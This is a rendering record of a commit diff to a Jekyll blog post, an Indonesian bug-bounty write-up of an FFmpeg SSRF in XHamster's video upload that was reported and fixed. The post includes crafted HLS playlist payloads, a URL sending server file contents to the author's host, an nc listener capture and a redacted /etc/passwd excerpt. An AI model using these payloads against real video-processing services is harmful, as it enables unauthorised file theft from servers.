

Before and after one commit to aryanrtm/noobsec.github.io, a Jekyll site: the page built from _posts/2017-08-18-xhamster-ssrf-vulnerabillity.md, in a window 1280 px wide and 1400 px high. Shown: the whole window, without its empty margins (233-1046 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; some of the changed text lies outside the part shown.

Commit message:
Update 2017-08-18-xhamster-ssrf-vulnerabillity.md

````diff
--- a/_posts/2017-08-18-xhamster-ssrf-vulnerabillity.md
+++ b/_posts/2017-08-18-xhamster-ssrf-vulnerabillity.md
@@ -6,11 +6,11 @@
 tags: [ssrf, ffmpeg]
 ---
 
-XHamster merupakan situs streaming video dewasa yang cukup besar. Konten-konten menarik pada situs tersebut merupakan kontribusi dari para member XHamster, dengan kata lain, para member meng-upload video mereka ke situs tersebut. Bagi para Bounty Hunter, fitur upload terlihat seperti tambang emas yang siap untuk digali :) Maka dari itu, saya pun tertarik untuk mencoba mencari celah keamanan pada situs XHamster.
+XHamster merupakan situs streaming video dewasa yang cukup besar. Konten-konten **menarik** pada situs tersebut merupakan kontribusi dari para member XHamster, dengan kata lain, para member *meng-upload* video mereka ke situs tersebut. Bagi para *Bounty Hunter*, fitur *upload* terlihat seperti tambang emas yang siap untuk digali :) Maka dari itu, kami pun tertarik untuk mencoba mencari celah keamanan pada situs XHamster.
 
-Seperti pada situs streaming lainnya, setiap video yang diupload, kemungkinan besar di-encode terlebih dahulu sebelum kemudian disajikan ke pengunjung. Kebanyakan situs video streaming menggunakan FFMPEG untuk encoding video pada situs mereka. Maka saya mencoba apakah benar XHamster menggunakan FFMPEG, dan apakah terdapat celah disana.
+Seperti pada situs streaming lainnya, setiap video yang *diupload*, kemungkinan besar *di-encode* terlebih dahulu sebelum kemudian disajikan ke pengunjung. Kebanyakan situs video streaming menggunakan **FFMPEG** untuk *encoding* video pada situs mereka. Maka kami mencoba apakah benar XHamster menggunakan FFMPEG, dan apakah terdapat celah disana.
 
-Pertama saya melakukan pengetesan sederhana dengan mengupload sebuah file video yang telah disisipi payload berikut:
+Pertama kami melakukan pengetesan sederhana dengan mengupload sebuah file video yang telah disisipi *payload* berikut:
 ```
 #EXTM3U
 #EXT-X-MEDIA-SEQUENCE:0
@@ -19,7 +19,7 @@
 #EXT-X-ENDLIST
 ```
 
-Setelah itu, listen di server pada port 1337, dan benar saya muncul response dari server XHamster:
+Setelah itu, *listen* di *server* pada port 1337, dan benar kami muncul *response* dari server XHamster:
 ```
 [xhellc0de@noobsec.org ~]# nc -lv 1337
 Connection from 88.208.16.193 port 1337 [tcp/menandmice-dns] accepted
@@ -31,11 +31,11 @@
 Icy-MetaData: 1
 ```
 
-Melihat dari response tersebut, maka saya berasumsi bahwa FFMPEG yang digunakan kemungkinan memiliki celah. Maka saya melanjutkan penetrasi lebih dalam untuk mencoba melihat file yang ada di server.
+Melihat dari *response* tersebut, maka kami berasumsi bahwa FFMPEG yang digunakan kemungkinan memiliki celah. Maka kami melanjutkan penetrasi lebih dalam untuk mencoba melihat *file* yang ada di server.
 
-Saya sedikit memodifikasi file video yang akan diupload dan membuat 1 file baru dengan nama header.m3u8, dengan isi:
+Kami sedikit memodifikasi file video yang akan diupload dan membuat 1 file baru dengan nama **header.m3u8**, dengan isi:
 
-ssrv.avi
+ssrf.avi
 ```
 #EXTM3U
 #EXT-X-MEDIA-SEQUENCE:0
@@ -52,7 +52,7 @@
 http://noobsec.org:1337/ssrf_result?
 ```
 
-Setelah diupload, dan kembali melakukan listen di server, maka muncul response seperti berikut:
+Setelah diupload, dan kembali melakukan listen di server, maka muncul *response* seperti berikut:
 ```
 [xhellc0de@noobsec.org ~]# nc -lv 1337
 Connection from 88.208.16.193 port 1337 [tcp/menandmice-dns] accepted
@@ -64,9 +64,9 @@
 Icy-MetaData: 1
 ```
 
-Dapat dilihat bahwa isi dari file /etc/issue adalah: Debian GNU/Linux 8 \n \l
+Dapat dilihat bahwa isi dari *file* /etc/issue adalah: **Debian GNU/Linux 8 \n \l**
 
-Untuk bukti yang lebih kuat, maka saya mencoba untuk melihat file lain yang ada di server XHamster. Dengan sedikit modifikasi di payload, saya berhasil mengambil isi file /etc/passwd
+Untuk bukti yang lebih kuat, maka kami mencoba untuk melihat file lain yang ada di server XHamster. Dengan sedikit modifikasi di payload, kami berhasil mengambil isi file /etc/passwd
 
 ```
 root:x:0:0:root:/root:/bin/bash
@@ -79,16 +79,18 @@
 [ redacted ]
 ```
 
-Saya mencoba untuk mengambil isi file-file lain seperti 000-default.conf dan file default lainnya, namun sepertinya XHamster tidak menggunakan default settings, dan saya kesulitan untuk menebak path dari file yang ada pada server mereka.
+Kami mencoba untuk mengambil isi file-file lain seperti 000-default.conf dan file default lainnya, namun sepertinya XHamster tidak menggunakan default settings, dan kami kesulitan untuk menebak path dari file yang ada pada server mereka.
 
-Untuk itu, saya rasa cukup sejauh ini penetrasi yang dilakukan dan saya langsung menghubungi XHamster terkait isu tersebut.
+Untuk itu, kami rasa cukup sejauh ini penetrasi yang dilakukan dan kami langsung menghubungi XHamster terkait isu tersebut.
 
 Referensi: https://www.blackhat.com/docs/us-16/materials/us-16-Ermishkin-Viral-Video-Exploiting-Ssrf-In-Video-Converters.pdf
 
 Timeline:
+```
 15 Agustus 2017 14:00 : Celah keamanan ditemukan
 15 Agustus 2017 15:30 : Celah keamanan dilaporkan ke XHamster
 15 Agustus 2017 16:15 : XHamster mengkonfirmasi bahwa celah keamanan tersebut valid
 15 Agustus 2017 16:53 : XHamster menyatakan sedang melakukan perbaikan pada celah tersebut
 15 Agustus 2017 21:40 : XHamster memberikan reward atas celah yang ditemukan
 17 Agustus 2017 10:59 : Celah telah diperbaiki
+```
````
